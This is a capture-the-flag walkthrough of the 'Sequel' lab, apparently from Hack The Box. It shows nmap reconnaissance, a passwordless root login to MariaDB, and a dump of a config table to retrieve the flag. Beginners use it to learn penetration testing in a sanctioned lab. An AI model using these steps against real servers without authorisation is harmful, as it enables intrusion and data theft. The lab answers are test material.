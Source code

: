 ```yaml
---
title: "[Starting Point] Tier 1: Sequel"
tags:
  - Very Easy
  - Linux
  - MariaDB
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|  Very Easy |  |  10.129.79.12 |  |

---

### [ What does the acronym SQL stand for? ]

Structured Query Language

---

### [ During our scan, which port running mysql do we find? ]

Let's run a basic nmap scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 10.129.79.12
```

![screenshot1](../assets/images/sequel/screenshot1.png)

From the results, we know that mysql is running on port **3306**.

---

### [ What community-developed MySQL version is the target running? ]

Nmap also reveals that the MySQL version running is **MariaDB**.

---

### [ What switch do we need to use in order to specify a login username for the MySQL service? ]

`-u`

---

### [ Which username allows us to log into MariaDB without providing a password? ]

Let's try login into the MariaDB server with the username: 

> root

Hopefully we are able to log into the server without requiring a password:

```
mysql -h 10.129.79.12 -u root
```

![screenshot2](../assets/images/sequel/screenshot2.png)

Nice, we're in! The username is: **root**

---

### [ What symbol can we use to specify within the query that we want to display everything inside a table? ]

`*`

---

### [ What symbol do we need to end each query with? ]

`;`

---

### [ Submit root flag ]

Let's first see what databases are in the server:

```
show databases;
```

![screenshot3](../assets/images/sequel/screenshot3.png)

The **htb** database seems interesting. Let's see what tables are in it:

```
use htb;
show tables;
```

![screenshot4](../assets/images/sequel/screenshot4.png)

Finally, let's dump out all the data in the **config** table:

```
select * from config;
```

![screenshot5](../assets/images/sequel/screenshot5.png)

And the **root flag** is in the table!
